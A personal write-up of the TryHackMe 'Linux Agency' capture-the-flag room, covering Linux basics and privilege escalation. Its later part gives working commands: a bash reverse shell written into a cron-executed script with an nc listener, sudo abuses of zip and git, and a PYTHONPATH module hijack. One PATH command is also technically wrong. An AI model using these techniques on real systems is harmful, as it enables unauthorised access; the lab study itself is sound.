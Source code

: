 ```yaml
---
tags:
  - grep
  - chmod
  - su
  - encode
  - decode
  - hashing
  - base64
  - RevShell
  - tools
  - cyber_chef
  - ltrace
---
```

# Linux Agency

***NOTE***: this room need to be done by some knowledge in [This room ](LinuxRoom-1.md)
link : https://tryhackme.com/r/room/linuxagency
writ up: https://waqar-arain.netlify.app/tryhackme/linux-agency/

---

## Task 1, task 2

***Deploy and ssh***

---
# Task 3

- It was better to search in the whole system with `grep` for the word
  ```bash
	  #the -r flag is for searching in folders for files 
	  grep -r `word` /*
	```
- to get as a `super user account of every mission`
  ```bash
	su mission1
	```  
- it's okay from time to time to check the text by `nano` not `cat`
	- to hide something in a file from printing you can add `^M` at the end of it to make it hidden
- **(Mission 11)** With EV's he meant environment variables!!!!!
	- so the solution is to search inside the env variable !!!!
	  ```bash
		  # and the -i flag for the case sensitivity
		  env | grep -i flag
		```
- **(Mission 12)** if the file has no permission you can not access it untill you change it
	- How to change the permission?
	  ```bash
			chmod +r flag.txt
		```
- ***(Mission 14,15,16)*** Use [Cyber Chef👨‍🍳](https://gchq.github.io/CyberChef/) to solve them.
- ***Tools*** [RevShell](https://www.revshells.com/)
- ***(Mission 16)*** it was a fucking compiled sh file just run the damn script!!! -it was a note screaming at myself-
- ***(Mission 17,18,19,20)*** use the right compiler to run the language
- ***(Mission 21)*** he spawned you into an `/bin/sh` try to get back to `/bin/bash`
- ***(Mission 22)*** he spawned you into a python interpreter try to open the `/bin/bash` form it
	- there is a library in python called `pty` that generate terminal with a command you want
	  ```python
		import pty;pty.spawn("/bin/bash")
		```
- ***(Mission 23)*** there was a site hosted in the machine you could know it by seeing the content of `/etc/hosts` and the ***hosts*** file is mentioned in the [Ch3 ](../Linux_basics_for_Hackers_book/ANALYZING_AND_MANAGING_NETWORKS.md)in the LBFH book.
	- to view the site on the server you can use `wget`
	  ```bash
	  wget localhost
		```
- ***(Mission 24)*** there is an important command `ltrace` that traces the libraries called to execute a code or a command, so you can use it to trace what that sh file does in the background and look at the variables it is dealing with ad look at the functions it is using.
- ***(Mission 25)*** you can't use `ls` so enter any char and take a space and hit double tabs and it will show you the files in the directory, to print the content of `flag.txt` we need something other than the `cat` command, lucky us that we have `printf` that acts like the echo command, next we need some expressions to extract the content from the file
  ```bash
  printf %s $(<flag.txt) 
	```
	Lets breakthrough this code:
	- `   printf`: This is a command used to format and print data. It takes a format string followed by arguments to fill in the placeholders in the format string.
    
	- `%s`: This is a format specifier used with `printf` to indicate that the corresponding argument should be treated as a string.
    
	- `$(<flag.txt)`: This part of the command is a command substitution. It reads the contents of the file named `flag.txt` and substitutes it as an argument to `printf`.
		- the `<` means to read the content of the flag
		- `$(....)` it is an expression  that executes whatever is between those brackets as a command, so if it is a text or a number it will return it, if it is command it will run it.
	Last thing, The damn `su` is not working because he cleared the fucking PATH variable!, to make it enter this command that adds the su command to the PATH like normal
	```bash
	export PATH=/bin:/usr/bin/su
	```
	and that should make the `su` works
- ***(Mission 26)*** there is a command named `file` to check the details of a file use it
- ***(Mission 27)*** act like it is a `gz` compressed file that contains a regular file
- ***(Mission 28)*** you are spawned in a ruby interpreter
  1. to exit from it: `exec '/bin/bash'`
  2. to print a text file reversed use the command `rev`
- ***(viktor Mission)*** you can get the logs of the git by 
  ```bash
	git log
	```

---

# Task 4


### Diana's flag

*Well this flag is related to a scheduled process of it happens it executes an `sh` file that you have a read and write permissions on, so the way to get this flag is to put a `bash` reverse shell script in that file and listen till it runs and you get to the shell that has the flag.*
- [Bash Rev-shell scripts](https://gtfobins.github.io/gtfobins/bash/)

So, the **first** thing is to find where the script is, there are two ways:

#### The hard and luck based way 

lets search for it by the `find` command by searching for all the files that `Viktor` owns, and the `47.sh` is the target file.

```bash
find / -user viktor 2>/dev/null | grep .sh
```

Now lets put the `bash` reverse shell script in the file, which you can get from: [GTFobins](https://gtfobins.github.io/gtfobins/bash/)

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/{IP}/{port} <&1'" > 47.sh
```

And wait till the scheduled process runs the script file. 
```bash
nc -lvnp {port}
```

#### The Hint based way

The hint on `tryhackme` says to wait a train or something, the works with schedules, and the scheduled things on Linux is the `crontabs`, and you can find the `crontab` files by this command....

```bash
find / -name crontab 2>/dev/null
```

At this point we are good, but we found a lot of `crontab` files, the file`/etc/crontab` manages the system wide `crontabs` and if we displayed what's in it by `cat`:

```bash
cat /etc/crontab
```

we will find that there is a scheduled process to run a script called `47.sh` in the directory `/opt/scripts`, so like the previous solution let's put the `bash` reverse shell script in it and wait till the script runs.

```bash
echo "bash -c 'exec bash -i &>/dev/tcp/{IP}/{port} <&1'" > 47.sh
```

And listen from another terminal
```bash
nc -lvnp {port}
```

---

#### Silvio's Flag

While you still on the `RevShell` of dalia go and list the commands that dalia allowed to run as `sudo`

```bash
sudo -l
```

then you will find that `dalia` can run the `zip` command as a `sudo` so search for it's script on [GTFobins](https://gtfobins.github.io/gtfobins/bash/) and add before it `sudo -u` to run it as `Silvio`, the script will be like that:

```bash
TF=$(mktemp -u)
sudo -u silvio /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
rm $TF
```
Now get a good shell...
```bash
python -c 'import pty;pty.spawn("/bin/bash")
```

and get your flag....

**a fast note, the hint on `THM` says "Check the Postal Code on the address." it means the `zip` command , very silly ain't it ?!**

---
#### Reza's Flag

The same as `silvio` but it is a `git` permissions:
```bash
sudo -u reza PAGER='sh -c "exec sh 0<&1"' git -p help
``` 

---
####  Jordan's Flag

Check the permissions of Reza with `sudo -l`, you will see that there is a permission on a `python` file that `Reza` can run it as `Jordan`, so as it became usual let's go to [GTFobins](https://gtfobins.github.io/gtfobins/bash/) to get a shell code from there, but wait, the file can't find a module called `shop.py` so we can write a module with that name and put the exploit code we want in it and then run the file again.

The exploit writed in a python script we will use as the missing module.
```bash
echo "import pty;pty.spawn('/bin/bash')" > /tmp/shop.py
```
And now we need to redirect the script to run our module, we can do that by changing the environment variable called `PYTHONPATH`, and by changing it to the path of our written module we can do the evil thing 😈.
```bash
sudo -u jordan PYTHONPATH=/tmp/ script.py
```